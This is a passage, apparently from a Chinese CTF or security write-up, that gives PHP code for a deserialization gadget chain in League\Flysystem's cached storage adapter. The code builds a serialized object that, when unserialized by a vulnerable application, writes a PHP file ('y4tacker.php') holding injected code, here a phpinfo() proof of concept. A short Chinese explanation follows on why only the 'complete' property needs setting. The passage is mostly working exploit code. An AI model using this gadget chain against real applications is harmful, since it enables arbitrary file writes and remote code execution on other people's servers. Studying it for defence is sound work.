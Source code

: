 ```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为 $contents = $this->getForStorage (); 我们跟进 getForStorage () 方法就可以发现 return json\_encode (\[$cleaned, $this->complete, $this->expire\]); 我们自然可以只赋值 complete 变量

### 参考
